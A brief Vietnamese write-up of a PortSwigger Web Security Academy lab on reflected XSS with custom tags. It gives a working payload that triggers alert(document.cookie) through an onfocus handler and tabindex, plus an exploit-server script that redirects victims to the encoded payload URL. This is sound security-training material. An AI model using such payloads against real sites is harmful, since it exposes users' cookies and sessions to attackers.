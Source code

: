 # Yêu cầu: Tấn công XSS vs hàm tùy chỉnh và tự động gọi ra `document.cookie`

Lab bảo chúng ta dùng `custom tags` để tấn công để chú ý tới hành động bên trong thẻ. 

![image](https://user-images.githubusercontent.com/72268643/150621172-632ea6bc-0865-463f-89d5-9a4c428d1017.png)

`/?search=<xss+id=x+onfocus=alert(document.cookie)+tabindex=1>#x` (`tabindex=1` để ưu tiên cho đoạn code được thực thi)

Tiếp đến, Exploit server vào sử dụng đoạn code dưới dạng URL encode.

![image](https://user-images.githubusercontent.com/72268643/150622129-ac8dff2f-5345-4807-9dad-60433894fc4d.png)

`<script>
location = 'https://acac1fef1e50b4c5c0c75b6d0045001d.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E%23x';
</script>`

Store và Deliver exploit to victim để hoàn thành lab 
